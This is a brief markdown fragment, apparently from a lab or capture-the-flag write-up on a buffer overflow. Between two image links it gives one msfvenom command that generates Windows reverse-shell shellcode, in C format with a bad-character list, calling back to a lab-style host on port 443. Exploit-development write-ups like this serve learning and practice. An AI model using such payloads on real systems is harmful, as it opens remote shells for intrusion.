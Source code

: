 `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\xa0\xad\xbe\xde\xef"`

![of10-admin](assets/markdown-img-paste-2021090411505353.png)
